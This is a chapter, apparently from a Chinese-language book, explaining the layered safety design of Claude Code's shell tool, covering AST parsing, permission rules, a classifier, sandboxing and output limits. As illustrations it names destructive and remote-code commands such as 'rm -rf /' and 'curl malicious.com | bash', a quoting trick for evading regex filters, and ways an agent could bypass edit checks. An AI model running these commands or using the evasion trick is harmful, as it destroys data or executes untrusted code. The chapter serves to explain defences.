


# 第 16 章：Shell 执行——Agent 最危险的工具

## 16.1 最强大也最危险

BashTool 是 Claude Code 中功能最强大的工具，也是最危险的。它让 Agent 拥有了执行任意 Shell 命令的能力——从 `ls` 到 `rm -rf /`，从 `git commit` 到 `curl` 外部服务器。

这种力量是一把双刃剑。Agent 可以用 `npm test` 运行测试，用 `git diff` 检查更改，用 `docker build` 构建镜像——这些是 Agent 真正有用的基础。但同时，`rm -rf .` 可以在一秒内摧毁整个项目，`curl malicious.com | bash` 可以引入恶意代码。

Claude Code 如何在灵活性与安全性之间取得平衡？答案是一套**纵深防御的安全链**。

## 16.2 BashTool 的安全链



这条安全链有五个关键环节：AST 解析、权限控制、自动分类、沙箱隔离和输出管理。每一层都是独立的防线，没有哪一层是完美的，但组合在一起提供了强大的安全保障。接下来我们逐一分析。

## 16.3 AST 安全解析：理解命令的真实意图

传统的命令安全检查用正则表达式匹配危险模式。但正则表达式容易被绕过——`r''m'' -rf /` 在 Bash 中等同于 `rm -rf /`，但会逃过简单的字符串匹配。

Claude Code 使用了更可靠的方法：**基于 tree-sitter 的 AST 解析**。`ast.ts` 模块用 tree-sitter-bash 将 Shell 命令解析为语法树，然后用一个**显式的节点类型白名单**遍历树结构：

```typescript
// ast.ts 的核心设计原则
// 对 tree-sitter 产生的每个节点类型做白名单检查
// 白名单之外的任何节点类型 → 整个命令被标记为 'too-complex'
// → 回退到用户审批流程
```

这个设计有一个关键属性：**故障安全（fail-closed）**。源码中的注释明确声明了这一点：

> This is NOT a sandbox. It does not prevent dangerous commands from running. It answers exactly one question: "Can we produce a trustworthy argv[] for each simple command in this string?"

也就是说，AST 解析的目的不是判断命令是否危险，而是判断**我们能否可靠地提取命令的参数列表**。如果能，下游的权限规则就可以精确匹配。如果不能，就回退到用户审批——宁可多问一次，也不放过一个可能绕过安全检查的命令。

这比正则匹配可靠得多，因为它理解 Shell 的语法结构，而不是在字符串表面做模式匹配。命令替换（`$(...)`）中的嵌套命令、管道链中的操作、Zsh 特殊语法（如 `=curl` 展开为 `/usr/bin/curl`），都能被准确识别。

## 16.4 权限控制：细粒度的命令审批

BashTool 的权限系统支持三种粒度的规则匹配：

**1. 工具级匹配**：允许或拒绝所有 Bash 调用
```
Bash(*) → allow
```

**2. 命令前缀匹配**：允许特定命令前缀
```
Bash(git *) → allow
Bash(npm test) → allow
Bash(rm *) → deny
```

**3. 通配符模式匹配**：支持更灵活的模式
```
Bash(git commit -m *) → allow
```

`bashPermissions.ts` 中的 `bashToolHasPermission()` 函数实现了这个匹配逻辑。它首先提取命令的基础命令部分，然后按规则逐级匹配——先检查 deny 规则，再检查 allow 规则，最后取决于权限模式的默认行为。

### 自动分类器：description 的双重角色

一个容易被忽略的设计是 `description` 参数。它不仅是给用户看的注释，还是**自动分类器的输入信号**。在自动权限模式下，分类器（`classifyBashCommand()`）结合命令本身和描述文本来判断是否需要用户确认：

```typescript
// 自动分类器返回三种行为之一
type ClassifierBehavior = 'allow' | 'deny' | 'ask'
```

这意味着当 Agent 为命令提供清晰的描述（如 "Install project dependencies"），分类器可以更准确地自动允许安全命令、拒绝危险命令。`description` 本质上是 Agent 对自己意图的解释——系统用它来做安全决策。

## 16.5 沙箱隔离：纵深防御的一层

对于修改文件系统的命令，Claude Code 提供了沙箱机制。`shouldUseSandbox()` 的判断逻辑比看起来更简单——当沙箱启用时，**所有命令默认在沙箱中执行**，除非满足以下例外之一：

- `dangerouslyDisableSandbox` 被显式设置（且策略允许）
- 命令包含用户配置的排除项（`excludedCommands`）

```typescript
export function shouldUseSandbox(input: Partial<SandboxInput>): boolean {
  if (!SandboxManager.isSandboxingEnabled()) return false
  if (input.dangerouslyDisableSandbox && SandboxManager.areUnsandboxedCommandsAllowed()) return false
  if (containsExcludedCommand(input.command)) return false
  return true  // 默认沙箱
}
```

`dangerouslyDisableSandbox` 这个参数名本身就是一种"命名即文档"的设计——"dangerous" 前缀明确告诉审查者这不是默认行为。同时，它需要额外的用户审批，且策略层（`areUnsandboxedCommandsAllowed()`）可以完全禁止这个选项。

排除命令的设计（`excludedCommands`）值得注意。源码注释明确指出这不是安全边界：

> NOTE: excludedCommands is a user-facing convenience feature, not a security boundary. It is not a security bug to be able to bypass excludedCommands — the sandbox permission system (which prompts users) is the actual security control.

这种对安全边界的清晰界定是好的安全架构的标志——每一层的职责明确，不会因为上层的"便利功能"而混淆真正的安全保证。

## 16.6 超时控制与后台执行

Shell 命令可能会长时间运行——`npm install` 可能需要几分钟，`docker build` 可能需要十几分钟。BashTool 的超时设计解决了这个问题。

超时是分层的：
- **默认超时**：通常 2 分钟（120 秒）
- **最大超时**：限制最大可请求的超时
- **用户覆盖**：用户可以通过设置调整这些值

对于长时间运行的命令，`run_in_background` 选项将命令移到后台。后台任务的生命周期由 `LocalShellTask` 管理——Agent 可以通过 `TaskOutputTool` 读取输出，通过 `TaskStopTool` 停止任务，任务完成时通过通知系统告知 Agent。



后台执行是 Agent 可靠性的关键设计。长时间运行的同步命令会阻塞 Agent 的主循环，导致超时、取消和不可预测的行为。将长时间运行的操作移到后台，让 Agent 可以继续工作，这是 Agent 系统中一个常见且重要的模式。

## 16.7 输出管理：防止上下文窗口爆炸

Shell 命令的输出可能非常庞大——`npm install` 的日志可能有几千行，`find /` 的结果可能有几万行。如果这些输出直接塞进上下文窗口，会迅速耗尽 token 预算。

BashTool 的输出管理策略是分层的：

**1. 截断**：当输出超过 `maxResultSizeChars`（BashTool 为 100,000 字符）时，保留头部，截断尾部。

**2. 持久化**：超大输出会被保存到文件系统，Agent 收到的是一个预览加文件路径。

**3. 图像检测**：如果输出是图像数据（终端支持图像协议），会走专门的图像处理路径。

**4. 智能退出码解释**：不是所有非零退出码都意味着失败——`grep` 没有匹配返回 1，但这不是错误。`interpretCommandResult()` 根据命令语义解释退出码。

## 16.8 sed 拦截：防止绕过编辑安全链

BashTool 中有一个特殊的设计——`sed` 命令的语义感知。当 Agent 尝试用 `sed -i` 编辑文件时，BashTool 会拦截并转为更安全的编辑流程。

这个设计的动机是：`sed` 命令的语法对 LLM 不友好，容易出错，而且会**绕过文件编辑工具的安全检查**（如用户确认修改内容）。`parseSedEditCommand()` 解析 `sed` 命令，提取文件路径和编辑内容，然后像普通文件编辑一样走预览和确认流程。

为了防止模型通过直接传递预计算结果来绕过这个过程，系统使用了一个模型不可见的内部参数：它存在于内部 schema 中，但从暴露给模型的 schema 中被移除。这样模型无法感知这个参数的存在，也就不会尝试利用它。

## 16.9 跨平台支持：PowerShellTool

在 Windows 上，BashTool 不是最佳选择——PowerShell 才是原生的 Shell。`PowerShellTool` 提供了与 BashTool 类似的功能，但适配了 PowerShell 的语法和安全模型。它只在 Windows 环境下启用。

PowerShellTool 和 BashTool 的共存设计反映了一个重要的架构决策：**不要抽象掉平台的差异，而是为每个平台提供最适合的工具**。在 Windows 上暴露 BashTool 但命令语义不同，会导致更多的错误和安全问题。为每个平台提供专用工具，虽然增加了维护成本，但降低了出错概率。

## 16.10 设计启示

BashTool 的安全设计给我们几个重要的启示：

**故障安全优先（Fail-Closed）。** AST 解析遇到不认识的节点类型就拒绝——宁可多问一次用户，也不放过一个可能绕过检查的命令。安全系统的默认行为应该是拒绝，而不是允许。

**纵深防御是必要的。** AST 解析、权限规则、自动分类器、沙箱隔离、超时控制——每一层都是独立的防线。没有哪一层是完美的，但组合在一起提供了强大的安全保障。关键是要明确每一层的职责边界（如 `excludedCommands` 不是安全边界）。

**理解你的输入域。** Shell 命令是一个极其复杂的输入域，包含变量替换、命令替换、管道、重定向等。用 AST 解析而不是正则匹配，是因为只有理解了语法结构才能做准确的安全判断。

**命名即安全。** `dangerouslyDisableSandbox` 这样的命名不是为了吓唬人，而是为了让代码审查者立即注意到这个选项的存在。在任何涉及安全的 API 中，危险选项的命名应该让任何看到它的人都不敢轻易使用。

**输出管理不是事后补救。** 从设计之初就要考虑输出的大小问题。截断、持久化、预览——这些机制应该在工具的核心逻辑中，而不是在外层包装。

**后台执行是 Agent 可靠性的关键。** 长时间运行的同步命令会阻塞 Agent 的主循环。将长时间运行的操作移到后台，让 Agent 可以继续工作，是 Agent 系统中一个常见且重要的模式。
